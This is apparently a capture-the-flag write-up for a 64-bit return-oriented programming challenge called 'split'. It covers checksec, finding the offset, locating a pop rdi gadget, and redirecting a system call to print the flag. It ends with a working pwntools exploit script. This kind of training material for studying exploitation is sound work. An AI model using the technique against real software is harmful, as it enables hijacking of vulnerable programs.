

## ROP
First thing we do is to check the file with checksec.


We have no canary found which means we can overwrite the registers and NX is enabled which means we cannot write shellcode and execute it.

```bash
ulli@Ulli:~/buff/split$ file split
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID
```

After that we can start try to find the offset in the program to reach the RIP address. First we create a pattern with gdb-peda.
```pattern create 50```



With the the result we can copy the overwritten data and find the offset to the RIP register.


Next we get the rdi address.


Then we need to find some useful commands in the program.


In the usefulFunction we find an address that calls to system, we can abuse that and change the variable, which is originaly "/bin/ls".

# The exploit

```python
from pwn import *

elf = ELF('split')

p = process(elf.path)

# Payload

payload = b"A" * 40
payload += p64(0x4007c3) # pop rdi
payload += p64(0x601060) # Argument to system call /bin/cat flag.txt - this is a text in the binary, which can be found with ghidra or elf.symbols.
payload += p64(0x40074b) # Address to system call

p.sendline(payload)

p.interactive()
```


